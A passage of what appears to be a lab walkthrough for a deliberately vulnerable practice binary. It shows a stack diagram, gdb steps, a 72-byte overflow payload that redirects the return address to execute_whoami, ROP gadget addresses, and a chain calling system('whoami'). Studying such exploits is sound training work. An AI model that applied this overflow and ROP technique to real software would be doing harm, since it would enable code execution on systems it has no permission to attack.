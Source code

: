 ```bash
# +------------------+ <- $rsp + 0x48 (72 bytes) - RETURN ADDRESS
# | 0x0000000000401471| <- We will replace this with execute_whoami
# +------------------+ <- $rsp + 0x40 (64 bytes) - SAVED RBP
# | 0x0000000000000000| <- This value will be preserved
# +------------------+ <- $rsp + 0x8 (0-63 bytes) - BUFFER[64]
# | 0x0000000000000000| <- We will write 72 bytes 'A' here
# | 0x0000000000000000| <- Buffer continues...
# | 0x0000000000000000| <- ...up to 64 bytes
# +------------------+ <- $rsp + 0x0 - FUNCTION ARGS
# | 0x0000000000000000| <- Function arguments

# STEP 6: Test buffer overflow
(gdb) run
# Enter payload: 72 bytes 'A' + execute_whoami address
# AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x20\x12\x40\x00\x00\x00\x00\x00

# STEP 7: Check if return address changed
(gdb) x/gx $rsp+0x48
# SAMPLE OUTPUT: 0x7fffffffe048: 0x0000000000401220
# COMMENT: ✅ SUCCESS! Return address changed to execute_whoami (0x401220).
# If it's still 0x401471, payload is wrong or offset is incorrect.
```

#### 3.2. ROP Gadget Analysis
```bash
# Real functionality of gadgets:
# gadget_pop_rdi (0x401323): Only dummy function, no real pop rdi; ret
# gadget_pop_rsi (0x40133a): Only dummy function, no real pop rsi; ret  
# gadget_pop_rdx (0x401351): Only dummy function, no real pop rdx; ret
# gadget_syscall (0x401368): Only dummy function, no real syscall

# Real ROPgadget results:
# pop rdi; ret: 0x401383
# pop rsi; ret: 0x40138c  
# pop rdx; ret: 0x401395
# syscall: 0x40139e
```

#### 3.3. Target Function Analysis
```bash
# execute_whoami (0x401220) - Main target:
# - Calls system("whoami") (0x401288)
# - Prints "Komut basariyla calistirildi!" on success
# - Terminates program with exit(0)

# win_function (0x401166) - Alternative target:
# - Only prints messages
# - Terminates program with exit(0)
```

#### 3.4. Exploit Strategy
```bash
# Simple ROP Chain (Recommended):
# 1. Buffer overflow (72 bytes)
# 2. Replace return address with execute_whoami
# 3. execute_whoami automatically calls system("whoami")

# Advanced ROP Chain (Alternative):
# 1. Buffer overflow (72 bytes)  
# 2. pop rdi; ret gadget (0x401383)
# 3. "whoami" string address
# 4. system@plt address
# 5. exit@plt address
```
